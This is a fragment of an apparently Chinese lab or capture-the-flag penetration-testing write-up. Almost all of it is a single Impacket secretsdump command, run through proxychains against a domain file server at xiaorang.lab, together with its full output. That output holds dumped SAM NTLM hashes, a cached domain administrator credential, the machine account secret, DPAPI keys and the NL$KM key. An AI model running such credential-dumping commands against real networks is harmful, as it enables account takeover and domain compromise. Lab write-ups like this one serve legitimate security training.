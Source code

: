 [![](assets/1706846898-037ec6dd89f123e1e36512380124027b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214302-a797784a-c03e-1.png)

具体如下

```bash
proxychains secretsdump.py -k -no-pass FILESERVER.xiaorang.lab -dc-ip 172.22.60.8
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket for Exegol - v0.10.1.dev1 - Copyright 2022 Fortra - forked by ThePorgs

[proxychains] Strict chain  ...  119.3.215.198:7001  ...  172.22.60.42:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xef418f88c0327e5815e32083619efdf5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bd8e2e150f44ea79fff5034cad4539fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b40dda6fd91a2212d118d83e94b61b11:::
[*] Dumping cached domain logon information (domain/username:hash)
XIAORANG.LAB/Administrator:$DCC2$10240#Administrator#f9224930044d24598d509aeb1a015766: (2023-08-02 07:52:21)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
XIAORANG\Fileserver$:plain_password_hex:3000310078005b003b0049004e003500450067003e00300039003f0074006c00630024003500450023002800220076003c004b0057005e0063006b005100580024007300620053002e0038002c0060003e00420021007200230030003700470051007200640054004e0078006000510070003300310074006d006b004c002e002f0059003b003f0059002a005d002900640040005b0071007a0070005d004000730066006f003b0042002300210022007400670045006d0023002a002800330073002c00320063004400720032002f003d0078006a002700550066006e002f003a002a0077006f0078002e0066003300
XIAORANG\Fileserver$:aad3b435b51404eeaad3b435b51404ee:951d8a9265dfb652f42e5c8c497d70dc:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x15367c548c55ac098c599b20b71d1c86a2c1f610
dpapi_userkey:0x28a7796c724094930fc4a3c5a099d0b89dccd6d1
[*] NL$KM 
 0000   8B 14 51 59 D7 67 45 80  9F 4A 54 4C 0D E1 D3 29   ..QY.gE..JTL...)
 0010   3E B6 CC 22 FF B7 C5 74  7F E4 B0 AD E7 FA 90 0D   >.."...t........
 0020   1B 77 20 D5 A6 67 31 E9  9E 38 DD 95 B0 60 32 C4   .w ..g1..8...`2.
 0030   BE 8E 72 4D 0D 90 01 7F  01 30 AC D7 F8 4C 2B 4A   ..rM.....0...L+J
NL$KM:8b145159d76745809f4a544c0de1d3293eb6cc22ffb7c5747fe4b0ade7fa900d1b7720d5a66731e99e38dd95b06032c4be8e724d0d90017f0130acd7f84c2b4a
[*] Cleaning up... 
```